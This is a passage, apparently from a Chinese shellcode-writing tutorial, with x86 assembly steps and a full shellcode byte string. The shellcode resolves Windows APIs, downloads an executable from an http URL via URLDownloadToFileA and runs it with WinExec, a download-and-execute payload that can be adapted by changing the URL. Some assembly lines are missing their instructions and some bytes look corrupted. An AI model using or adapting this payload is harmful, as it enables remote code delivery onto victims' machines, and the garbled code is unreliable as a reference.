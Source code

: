 
    add esp,8
    ```
10. 执行函数
    ```bash
    ;calling WinExec("PCQQ2020.exe",0)
    xor ecx,ecx
    push ecx
    0x6578652e  ; exe.
    0x30323032  ; 0202
    0x51514350  ; QQCP

    push esp
    pop ecx

    xor edx,edx
    push edx
    push ecx

    call eax

    add esp,8
    ```
11. 结束进程
    ```bash

    ;finding address of ExitProcess()
    xor ecx,ecx
    push 0x41737365
    mov [esp+3],byte cl
    push 0x636f7250
    push 0x74697845

    push esp
    push edi

    call esi

    call eax
    ```
12. 修改示例代码

    ```bash
    \x31\xc9\x64\x8b\x41\x30\x8b\x40\x0c\x8b\x70\x14\xad\x96\xad\x8b\x48\x10\x8b\x59\x3c\x01\xcb\x8b\x5b\x78\x01\xcb\x8b\x73\x20\x01\xce\x31\xd2\x42\xad\x01\xc8\x81\x38\x47\x65\x74\x50\x75\xf4\x81\x78\x04\x72\x6f\x63\x41\x75\xeb\x81\x78\x08\x64\x64\x72\x65\x75\xe2\x8b\x73\x1c\x01\xce\x8b\x14\x96\x01\xca\x31\xf6\x89\xd6\x89\xcf\x31\xc0\x50\x68\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68\x4c\x6f\x61\x64\x54\x51\xff\xd2\x83\xc4\x0c\x31\xc9\x68\x6c\x6c\x41\x41\x88\x4c\x24\x02\x68\x6f\x6e\x2e\x64\x68\x75\x72\x6c\x6d\x54\xff\xd0\x83\xc4\x0c\x31\xc9\x68\x65\x41\x42\x42\x88\x4c\x24\x02\x68\x6f\x46\x69\x6c\x68\x6f\x61\x64\x54\x68\x6f\x77\x6e\x6c\x68\x55\x52\x4c\x44\x54\x50\xff\xd6\x83\xc4\x14\x50\x58\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x32\x30\x32\x30\x68\x50\x43\x51\x51\x68\x45\x58\x45\x2f\x68\x43\x51\x51\x5f\x68\x51\x51\x2f\x50\x68\x62\x2f\x50\x43\x68\x71\x71\x77\x65\x86\x63\x6f\x6d\x2f\x86\x2e\x71\x71\x2e\x86\x64\x6f\x77\x6e\x86\x73\x3a\x2f\x2f\x86\x68\x74\x74\x70\x54\x59\x31\xdb\x53\x68\x2e\x65\x78\x65\x68\x70\x79\x6c\x64\x54\x5b\x31\xd2\x50\x52\x52\x53\x51\x52\xff\xd0\x59\x83\xc4\x2c\x31\xd2\x39\xd0\x51\x75\xae\x5a\x31\xd2\x68\x73\x41\x42\x42\x88\x54\x24\x02\x68\x62\x75\x74\x65\x68\x74\x74\x72\x69\x68\x69\x6c\x65\x41\x68\x53\x65\x74\x46\x54\x57\xff\xd6\x83\xc4\x14\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x32\x30\x32\x30\x68\x50\x43\x51\x51\x54\x59\x31\xd2\x83\xc2\x02\x52\x51\xff\xd0\x83\xc4\x08\x31\xc9\x68\x78\x65\x63\x41\x88\x4c\x24\x03\x68\x57\x69\x6e\x45\x54\x57\xff\xd6\x83\xc4\x08\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x32\x30\x32\x30\x68\x50\x43\x51\x51\x54\x59\x31\xd2\x52\x51\xff\xd0\x83\xc4\x08\x31\xc9\x68\x65\x73\x73\x41\x88\x4c\x24\x03\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74\x54\x57\xff\xd6\xff\xd0"
    ```
13. c文件
